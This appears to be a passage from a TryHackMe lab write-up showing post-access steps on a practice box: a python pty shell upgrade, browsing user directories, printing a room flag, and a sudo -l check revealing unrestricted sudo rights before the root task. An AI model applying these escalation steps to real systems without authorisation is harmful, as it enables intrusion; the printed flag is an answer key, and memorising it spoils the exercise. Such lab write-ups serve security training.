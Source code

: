 <p align="center">GTFOBins ../<code>zip</code><br><img width="250px" src="https://github.com/user-attachments/assets/411f4b4d-adff-4879-9eb7-f197bcf97528"><br>//gtfobins.github.io/gtfobins/zip/</p>

<br>

```bash
$ id
uid=1003(jsmith) gid=1003(jsmith) groups=1003(jsmith)
```

```bash
$ python -c 'import pty;pty.spawn("/bin/bash")'
jsmith@Securus:/home/wileec$ 
```

```bash
jsmith@Securus:/home/wileec$ cd ..
jsmith@Securus:/home$ ls
jsmith  wileec
jsmith@Securus:/home$ cd jsmith
jsmith@Securus:~$ ls -lah
total 24K
drwxrwx--- 2 jsmith jsmith 4.0K Apr 25  2020 .
drwxr-xr-x 4 root   root   4.0K Apr 26  2020 ..
-rw-r--r-- 1 jsmith jsmith  220 Nov  5  2016 .bash_logout
-rw-r--r-- 1 jsmith jsmith 3.5K Nov  5  2016 .bashrc
-rw-r--r-- 1 jsmith jsmith   33 Apr 25  2020 flag2.txt
-rw-r--r-- 1 jsmith jsmith  675 Nov  5  2016 .profile
```

```bash
jsmith@Securus:~$ cat flag2.txt
THM{Welcome_Home_Wile_E_Coyote!}
```

<br>
<h2>Task 9 . Root</h2>
<p>As jsmith, we again check for sudo rights (this btw, should be your first action on any box when gaining access to a account)<br>

There are several ways to exploit this rights. Go for it!</p>


<p><em>Answer the questions below</em></p>

<p>9.1. Flag 2<br>
<code>(ALL : ALL) NOPASSWD: ALL</code></p>

```bash
jsmith@Securus:~$ sudo -l
Matching Defaults entries for jsmith on Securus:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jsmith may run the following commands on Securus:
    (ALL : ALL) NOPASSWD: ALL
```

<br>
